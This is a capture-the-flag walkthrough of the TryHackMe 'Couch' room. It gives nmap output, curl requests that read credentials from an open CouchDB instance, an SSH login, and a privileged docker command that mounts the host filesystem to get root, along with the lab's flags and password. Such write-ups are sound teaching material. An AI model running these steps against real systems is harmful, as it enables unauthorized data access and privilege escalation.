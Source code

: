 # Couch Walkthrough
### Link
- https://tryhackme.com/room/couch
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
map scan report for 10.10.109.34
Host is up (0.10s latency).
Not shown: 65504 closed ports, 29 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4670.29 seconds
```

**Question**
#### Scan the machine. How many ports are open?

**Answer** 
#### 2

**Question**
#### What is the database management system installed on the server?

**Answer** 
#### CouchDB

**Question**
#### What port is the database management system running on?

**Answer** 
#### 5984

**Question**
#### What is the version of the management system installed on the server?

**Answer** 
#### 1.6.1

**Question**
#### What is the path for the web administration tool for this database management system?


Let's check the documentation about this Database [CouchDB](https://www.tutorialspoint.com/couchdb/couchdb_curl_futon.htm)

If we check the section: *Starting Futon*, we can check if we have access to CouchDB through the web browser
```
http://[IP]:5984/_utils
```

It works ^^

**Answer** 
#### _utils

**Question**
#### What is the path to list all databases in the web browser of the database management system?

Also in the documentation [CouchDB](https://www.tutorialspoint.com/couchdb/couchdb_curl_futon.htm), you can find the appropriate command

```
 curl -X GET http://10.10.109.34:5984/_all_dbs
```

Result
```
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

**Answer** 
#### _all_dbs

**Question**
#### What are the credentials found in the web administration tool?

For this point, we should to navigate in each table but the **secret** drew my attention ^^

```
curl http://10.10.109.34:5984/secret
```
```
{"db_name":"secret","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":339,"instance_start_time":"1639589828903886","disk_format_version":6,"committed_update_seq":2}
```
It looks like we have enough access right to read this table. Let's check the content
```
curl http://10.10.109.34:5984/secret/_all_docs
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
```
So you have an **id** : **a1320dd69fb4570d0a3d26df4e000be7**. Let's check the information related to this **id**
```
curl http://10.10.109.34:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:t4qfzcc4qN##"}
```
We found a user **atena** and the password attached to this user **t4qfzcc4qN##**
**Answer** 
#### t4qfzcc4qN##

---
### Exploitation

**Question**
#### Compromise the machine and locate user.txt

With the credentials found in the DB, we can try to SSH the server ^^
```
ssh atena@10.10.109.34
The authenticity of host '10.10.109.34 (10.10.109.34)' can't be established.
ED25519 key fingerprint is SHA256:QXIT4W/vOthS71YtOAr7s67oloxpMmr0GLRVL9iVFJM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.109.34' (ED25519) to the list of known hosts.
atena@10.10.109.34's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ ls
user.txt
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```
**Answer** 
#### THM{1ns3cure_couchdb}


---
### Privilege Escalation

**Question**
#### Escalate privileges and obtain root.txt

Let's check what **atena** can do
```
atena@ubuntu:~$ sudo -l
[sudo] password for atena:
Sorry, user atena may not run sudo on ubuntu.
```
Now let's check all files and folder.
```
atena@ubuntu:~$ ls -la
total 48
drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
-rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
-rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
-rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
drwx------ 2 atena atena 4096 Oct 24  2020 .cache
drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
-rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
-rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
-rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
```

Interesting hidden file : **.bash_history**. We have the listing of all commands used previously.
```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```
Let's try this command from the SSH session
```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # whoami
root
/ # pwd
/
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # cd /root
~ # ls
~ # cd ..
/ # cd tmp
/tmp # ls
/tmp # cd ..
/ # cd mnt
/mnt # ls
bin             etc             initrd.img.old  lost+found      opt             run             sys             var
boot            home            lib             media           proc            sbin            tmp             vmlinuz
dev             initrd.img      lib64           mnt             root            srv             usr             vmlinuz.old
/mnt # cd root
/mnt/root # ls
root.txt
/mnt/root # cat root.txt
THM{RCE_us1ng_Docker_API}
```
**Answer** 
#### THM{RCE_us1ng_Docker_API}






